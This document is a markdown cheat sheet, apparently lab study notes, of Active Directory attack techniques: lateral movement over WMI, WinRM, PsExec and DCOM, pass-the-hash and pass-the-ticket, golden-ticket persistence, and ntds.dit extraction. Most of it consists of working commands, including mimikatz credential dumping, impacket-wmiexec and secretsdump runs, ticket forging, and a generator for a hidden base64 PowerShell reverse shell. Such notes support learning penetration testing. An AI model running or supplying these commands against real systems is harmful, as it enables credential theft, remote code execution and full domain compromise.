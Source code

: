 # AD Lateral Movement Techniques
- all mimikatz run this : ``` privilege::debug ``` to do sussy thing
- spawn cmd inside mimikatz : ``` misc::cmd ```
- Some Ticket may req admin right to access (read)
## WMI 
- Remote Procedure Calls (port 135)
- Req target host credential & that user admininistrator local group in target
- deprecated in realworld
- not restricted by UAC remote restriction for non-domain joined machines 
- Works in cmd & pwsh
### Cmd 
- Dont have direct output 
- Launch calculator remotely  ``` wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc" ```
### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Prep Cim Session
   ```
        $options = New-CimSessionOption -Protocol DCOM
        $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options // modify ip to new victim ip
        $command = 'calc';  // modify this to any rev shell or command
    ```
3. Prep Powershell Base64 Rev Shell
   ``` 
        import sys
        import base64

        payload = {reference https://www.revshells.com/ PowerShell #2 starting from "client....}

        cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

        print(cmd)
    ```
4. Run CIM
    ``` 
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
    ``` 

## WinRM
- WS-Management Protocol (xml messages w/ http&https)
- port 5986
- Req Administrators or Remote Management Users Group on target host
### Cmd
- Have output
- ``` winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami" ``` 

### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Start session 
   ``` 
    New-PSSession -ComputerName {Target IP} -Credential $credential
    Enter-PSSession 1 // no need nc
   ```

## PsExec
- Require ADMIN$ share in SMB
- Require that user is admin local group of that machine
- Require file & printer sharing turned on
1. Exec ``` ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd ```

## Pass the hash
- With NTLM authN services only | Kerberos authN NOT WORK!!
- Abuse SMB again
- Run in kali ``` /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@{Target ip} ```

## Overpass the hash
- Passing NTLM generated ticket (TGT) for Kerberos service | Not for NTLM services!!!
1. Run as different user for any exe e.g. notepad (shift right click)
2. Get NTLM ``` mimi> sekurlsa::logonpasswords ``` 
3. Spawn shell of that user``` sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell ```
4. Turn NTLM to Kerberos ticket by generating when access netw share ``` net use \\files04 ```
5. Check the ticket ``` klist ```
6. Spawn shell in victim ``` .\PsExec.exe \\files04 cmd ```

## Pass the ticket
- Passing NTLM ticket to get TGS for Kerberos service | Not for NTLM services!!! 
- More flexibility (TGS > TGT)
1. Export all TGT/TGS from memory ``` mimi> sekurlsa::tickets /export ```
2. Find all ticket and select the one we want ``` pwsh> dir *.kirbi ``` (remember same directory as mimikatz.exe) 
   - our target have record in Group 2 - T... G... S...
   - e.g. ```[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi ``` means dave = the user we want to impersnate and web04 is domain name
3. Inject to klist ``` kerberos::ptt {that kirbi file}```
4. Run as admin shell & access the service

## DCOM
- Distributed Component Object Model & abusing Microsoft Management Console COM app
- Old tech
- Port 135 RPC
- Req local admin
1. Prepare DCOM obj``` $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.177.72")) ```
2. Execute ``` $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{commands e.g. rev shell}","7") ``` (can edit to other shell)

# AD Persistence
## Golden Ticket
- Create self-made custom TGT
- Create a TGT stating that a non-privileged user is a member of the Domain Admins group
-  krbtgt account password is not automatically changed
-  Require krbtgt password (NTLM hashed)
1. dump the list if have kerberos pwd ``` lsadump::lsa /patch ``` Get domain id here (S-1-5-xxxxx) & NTLM hash of krbtgt
2. remove all existing tickets ``` kerberos::purge ``` 
3. Gen golden ticket ``` kerberos::golden /user:jen /domain:corp.com /sid:{domain} /krbtgt:{krbtgt ntlm hash} /ptt ```
4. Run psexec to lateral movement ``` ./PsExec.exe \\dc1 cmd.exe ```


## Shadow Copies
- Abusing Microsoft backup tech: Volume Shadow Service (Which backup AD database)
- Req Admin in Domain controller
- Start in Domain Controller (with CMD):
  1. Query all shadow copies ``` vshadow.exe -nw -p  C: ``` (Get the shadow copy device name for step 2)
  2. Copy the ntds.dit to DC directory``` copy {shadow copy device name}\windows\ntds\ntds.dit c:\ntds.dit.bak ```
  3. Save to system hive ``` reg.exe save hklm\system c:\system.bak ```
  4. Copy the 2 files to kali (ntds.dit.bak & system.bak)
  5. Use Kali : ``` impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL ``` 
  6. (Optional) Can use pass the hash to get shell 


# How distinguish NLTM vs Kerberos service?
1. Use tools like Mimikatz to dump the cached credentials and look for Kerberos tickets.
2. Check the type of tickets being used when accessing a service. For example, if you see TGTs (Ticket Granting Tickets) or TGSs (Ticket Granting Services), it indicates Kerberos authentication.
3. if you have NTLM hashes and are accessing services using NTLM authentication, it's likely that NTLM is being used.

## Same machine lateral movement with Domain Controller
1. Get SPN list
2. Get ticket of the service account / user that you want to move to
   ```
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '{SPN}'
    ```
3. Kerberoast 

# NTLM 
## Generator
- If u already have the password but u need to pash NTLM hash ->
- https://codebeautify.org/ntlm-hash-generator